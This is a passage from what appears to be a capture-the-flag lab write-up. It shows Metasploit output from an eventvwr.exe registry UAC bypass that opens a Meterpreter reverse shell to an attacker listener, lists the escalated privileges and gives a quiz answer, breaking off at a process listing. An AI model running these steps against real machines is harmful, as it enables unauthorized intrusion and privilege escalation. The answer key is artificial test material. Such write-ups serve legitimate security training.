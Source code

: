 ```
[+] BypassUAC can bypass this setting, continuing...
[*] Configuring payload and stager registry keys ...
[*] Executing payload: C:\Windows\SysWOW64\eventvwr.exe
[+] eventvwr.exe executed successfully, waiting 10 seconds for the payload to execute.
[*] Sending stage (175174 bytes) to 10.10.170.20
[*] Meterpreter session 2 opened (<OPENVPN_IP>:4444 -> 10.10.170.20:49215) at 2021-04-20 19:54:34 +1000
[*] Cleaning up registry keys ...

meterpreter > sessions 
Usage: sessions <id>

Interact with a different session Id.
This works the same as calling this from the MSF shell: sessions -i <session id>

meterpreter > sessions -i 2
Usage: sessions <id>

Interact with a different session Id.
This works the same as calling this from the MSF shell: sessions -i <session id>

meterpreter > sessions 2
[*] Session 2 is already interactive.
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege
```
**Answer**: `SeTakeOwnershipPrivilege`
## Looting
### What's the name of the printer spool service?
```
meterpreter > ps

Process List
```